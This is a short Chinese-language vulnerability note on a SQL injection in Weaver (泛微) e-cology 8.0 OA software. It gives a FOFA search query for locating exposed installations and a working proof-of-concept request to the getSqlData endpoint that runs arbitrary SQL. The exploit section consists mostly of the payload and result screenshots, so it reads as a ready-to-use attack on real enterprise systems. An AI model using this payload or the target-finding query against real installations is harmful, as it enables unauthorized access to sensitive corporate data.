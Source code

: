 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## FOFA

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746.png)

验证POC

```php
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![img](../../../.vuepress/public/img/1640576046324-ba0b76d2-f7fa-4f26-b8e1-a5b38baed17a.png)



若有收获，就点个赞吧